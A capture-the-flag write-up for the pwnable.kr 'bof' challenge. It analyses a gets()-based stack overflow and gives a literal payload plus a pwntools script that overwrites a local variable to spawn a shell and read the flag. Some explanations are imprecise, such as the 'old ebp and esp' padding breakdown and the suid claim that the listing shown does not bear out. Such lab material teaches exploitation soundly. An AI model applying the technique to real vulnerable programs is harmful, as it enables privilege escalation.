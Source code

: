 # bof writeup

## Challenge infos

```text
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?


ssh bof@pwnable.kr -p2222 (pw: guest)
```

## Server content

```text
--- ls -la ---
total 44
drwxr-x---   2 root bof   4096 Apr  3 16:04 .
drwxr-xr-x 118 root root  4096 Jun  1 12:05 ..
-rw-r--r--   1 root root   220 Feb 14 11:22 .bash_logout
-rw-r--r--   1 root root  3771 Feb 14 11:22 .bashrc
-rwxr-xr-x   1 root bof  15300 Mar 26 13:03 bof
-rw-r--r--   1 root root   342 Mar 26 13:09 bof.c
-rw-r--r--   1 root root   811 Apr  3 16:04 .profile
-rw-r--r--   1 root root    86 Apr  3 16:03 readme
--- id ---
uid=1003(bof) gid=1003(bof) groups=1003(bof)
--- cat file---
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                setregid(getegid(), getegid());
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}

--- file binary ---
bof: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=1cabd158f67491e9edb3df0219ac3a4ef165dc76, for GNU/Linux 3.2.0, not stripped
```
## Exploitation objective
* The ssh user is ```bof```, group ```bof```
* The ```flag``` file is readable only by the user ```bof_pwn``` or the group ```root```
* The ```bof``` binary is a 32bit ELF executable by the ```bof_pwn``` user or members of the ```bof``` group and is ```suid``` meaning that it executes with the rights of its user even if called by a member of its group

This means that if we pwn the ```bof``` executable we can gain read access to the ```flag``` file via suid user ```bof_pwn```.

The ```bof``` executable is certainly compiled from the ```bof.c``` source code, let's have a look.

## C code analysis
```c
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

* The ```main()``` function takes command line arguments and calls the ```func()``` function with the argument ```0xdeadbeef```


```c
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
```

* The ```func()``` function declares a character array ```overflowme``` of size 32 bytes
* It then prints a prompt to the user and calls the unsafe ```gets()``` function to read input into the ```overflowme``` array
* The comment ```// smash me!``` suggests that this function is vulnerable to a buffer overflow attack, as the ```gets()``` function does not check the length of the input and can write beyond the bounds of the array

```c
        if(key == 0xcafebabe){
                setregid(getegid(), getegid());
                system("/bin/sh");
        }
```
* If the ```key``` argument is equal to ```0xcafebabe```, the function changes the effective group ID of the process to the effective group ID of the process (which is likely the group of the user running the program) and then executes a shell using ```system("/bin/sh")```
* This means that if we can control the value of ```key``` by overflowing the ```overflowme``` array, we can gain a shell with the effective group ID of the user running the program

## Buffer overflow exploitations

* A buffer overflow occurs when a program writes more data to a buffer than it can hold, causing adjacent memory to be overwritten
* In this case, the ```overflowme``` array is 32 bytes long, but the ```gets()``` function does not limit the input size, allowing us to write more than 32 bytes
* By overflowing the ```overflowme``` array, we can overwrite the ```key``` variable in the stack with the value ```0xcafebabe```, which will allow us to execute the shell command in the ```if``` statement

## Exploitation

* To exploit this vulnerability, we need to provide an input that is longer than 32 bytes, specifically enough to overwrite the ```key``` variable with the value ```0xcafebabe```
* The stack layout for the ```func()``` function will look something like this:

```
| Address       | Value                |
|---------------|----------------------|
| 0x...         | key (0xdeadbeef)     |
| 0x...         | Return address       |
| 0x...         | Old base pointer     |
| 0x...         | free space           |
| 0x...         | overflowme[31]       |
| 0x...         | overflowme[30]       |
| 0x...         | ...                  |
| 0x...         | overflowme[0]        |
```

* We need to fill the buffer with 32 bytes of data, then the 12 bytes of space, then the 8 bytes of olds ebp and esp, and finally the 4 bytes of the value we want to set for ```key```, which is ```0xcafebabe```

* The total length of the input should be 32 + 12 + 8 + 4 = 56 bytes
* The input should look like this: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaa\xbe\xba\xfe\xca


## Exploitation script

```python
#!/usr/bin/env python
from pwn import *
```
* Use [pwntools](https://github.com/Gallopsled/pwntools) for automatic exploitation
```python
inject = fit({52: p32(0xcafebabe)})
```
* Use the `fit` function from pwntools to create a payload that fills the buffer and overwrites the `key` variable with `0xcafebabe`
```python
server = ssh('bof', 'pwnable.kr', 2222, 'guest')
io = server.process(['nc', '0', '9000'])

io.sendline(inject)
io.sendline('cat flag')

result = io.recvuntil(b'\n', drop=True)

io.close()
server.close()

print(result)
```
* Connect to the server using SSH and start a process that listens on port 9000
* Send the payload to the process
* Send the command `cat flag` to read the content of the `flag` file
* Receive the output until a newline character is encountered and print the result